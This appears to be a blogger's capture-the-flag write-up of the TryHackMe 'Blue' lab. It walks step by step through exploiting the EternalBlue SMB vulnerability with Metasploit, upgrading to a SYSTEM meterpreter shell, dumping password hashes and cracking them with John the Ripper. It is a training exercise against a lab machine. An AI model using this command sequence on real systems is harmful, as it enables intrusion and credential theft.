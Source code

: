```yaml
---
title: "Eternal Blue"
layout: post
author: "daniboomberger"
date: 2020-10-25 18:13:44 +0530
categories: [TryHackMe,Hacktivity]
tags: [thm, metasploit]
math: true
image: /assets/img/thm_blue/eternal_blue.png 
---
```


# Eternal Blue
> Author: daniboomberger
> Date: 12.10.2020

## What is Eternal Blue?
> Eternal Blue is Vulnerability could lead to allowing the attacker to do a remote code execution. The attacker would send a sepcially crafted message to SMBv1 Server. SMB stands for Server Message Block, which is a communication protocol for providing shared access to files, printer and serial ports between nodes on a network. The Vulnerability was foud by the NSA (National Security Agency).
(Information Resources: Microsoft: https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010
                        Wikipedia: https://en.wikipedia.org/wiki/Server_Message_Block)

## Recon

> **Scan the machine.**
> - `nmap -sC -sV <IP_ADDRESS>`
> - `-sC` does mean the same as `--script=default`
> - `-sV` Probe open ports to determine service/version info
> - you will get a output file (nmap.txt), which can be read
>
> **How many ports are open with a port number under 1000?**
> - `nmap -p0-1000 <IP_ADDRESS>`
> - `p` specify port (or port range)
> - The output of nmap was three ports are open under this range
>
> **What is this machine vulnerable to?**
> - `nmap --script vuln <IP_ADDRESS>`
> - It scans the host for vulnerabilities
> - It will show the information of a vulnerability called `ms17-010` the so called eternal blue exploit
> - INFO: I ran these specific nmap commands to have some sort of training (nmap training)...

## Gain Access

> **Start Metasploit**
> - `msfconsole -q`
> - `-q` this prevents the banner to appear
> - Will open metasploit
>
> **Find the exploitation code we will run against the machine**
> - `search ms17-010`
> - This will let you search the exploit in metasploit (search term we got from nmap vuln scan)
> - There will appear some exploits after the search term the correct one will be
> - `exploit/windows/smb/ms17_010_eternalblue` this is the one we are looking for
> - `use exploit/windows/smb/ms17_010_eternalblue`
> - That is to use the exploit that we've searched
> - You could also read the id in the search and run `use <ID>`
>
> **Show options and set the one required value. What is the name of this value?**
> - `show options`
> - It will show a list of options and if they are required and also show there value.
> - You have to search the option that is required, but has no value set `RHOSTS`
> - `set RHOSTS <IP_ADDRESS>`
> - This will set `RHOSTS` to the IP Address of our target
> 
> **Run the exploit**
> - `run` or `exploit`
> - One of these two commands will run the exploit (ms17-010)
> - After it's successfully finished there will appear a DOS Shell
> - If everything is the same you have to put the shell in the background `CTRL+Z`

## Escalate

> **Research online how to convert a shell to meterpreter shell in metasploit. Post Module Name?**
> - I searched with the term `shell to meterpreter` (I know big brain me)
> - So I found this path in the World Wide Web `post/multi/manage/shell_to_meterpreter`
> - And No I don't go back and provide the link, because I wrote this writeup after I finished the Room
> 
> **Select this (use MODULE_PATH). Show options, what option are we required to change?**
> - `show options`
> - This will provide us a options list with all options
> - Search the required field that has no Value in it `SESSION`
>
> **Set the required option, you may need to list all of the sessions to find your target here.**
> - `sessions`
> - That command shows us a list of all current sessions
> - `set SESSION <ID>`
> - Set the <ID> to ID of the Windows shell (ID will probably be 1)
> 
> **Run! If this doesn't work, try completing the exploit from the previous task once more.**
> - `run` or `exploit`
> - Will run this `post/multi/manage/shell_to_meterpreter`
> - `getsystem`
> - If you run this command your return should be `NT AUTHORITY\SYSTEM`
> - `shell`
> - This command would open the DOS shell and in this shell you could run the command `whoami` to check
> 
> **List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column)**
>
> **Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time**

## Cracking

> **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**
> - `hashdump`
> - Command will provide you with users and there password hashes
> - Three Users will appear (Administrator, Guest and Jon) `Jon` it is
> 
> **Copy this password hash to a file and research how to crack it. What is the cracked password?**
> - `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt password.txt`
> - Windows stores hashes in NTLM so thats why we use `--format=NT`
> - The `--wordlist=/usr/share/wordlists/rockyou.txt` is to provide rockyou.txt (your path could be different)
> - And password.txt is a created file by with the hashed password inside

## Find flags!
> **Search the flags in the Windows System**
> - `search -f flag*.txt`
> - A magic command from meterpreter that will provide you with all three flags and there path

## Conclusion
> I really liked the box and it was fun to work around with metasploit. I'm actually a beginner and did not start long ago and it was totally good explained. As a tip, always try to understand what you are doing and not only copy paste the commands.
